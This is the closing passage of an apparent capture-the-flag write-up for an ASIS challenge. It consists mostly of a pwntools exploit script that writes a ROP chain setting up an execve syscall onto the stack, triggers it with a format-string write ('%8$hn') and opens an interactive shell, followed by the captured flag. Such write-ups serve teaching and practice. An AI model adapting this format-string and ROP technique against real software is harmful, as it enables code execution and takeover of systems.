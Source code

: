 ```py
io.success("mov qword ptr [rdi], rdx")
writeGadget(stack+0x50, rop.find_gadget(['pop rsi', 'ret'])[0])
io.success("pop rsi")
writeGadget(stack+0x58, 0)
io.success("0")
writeGadget(stack+0x60, rop.find_gadget(['pop rdx', 'ret'])[0])
io.success("pop rdx")
writeGadget(stack+0x68, 0)
io.success("0")
writeGadget(stack+0x70, rop.find_gadget(['pop rax', 'ret'])[0])
io.success("pop rax")
writeGadget(stack+0x78, 59)
io.success("59")
writeGadget(stack+0x80, rop.find_gadget(['syscall'])[0])
io.success("syscall")

fmtstr = "%{}c%8$hn".format((stack + 0x20) % 0x10000).encode()
io.sendlineafter(b'Enter text: ', fmtstr)

io.sendlineafter(b'Enter text: ', b'')
io.sendlineafter(b'Enter text: ', b'')
io.sendlineafter(b'Enter text: ', b'')

io.interactive()
```

## Flag

`ASIS{d1d_u_kn0w_ASIS_1s_n0t_4n_4bbr3v14t10n}`

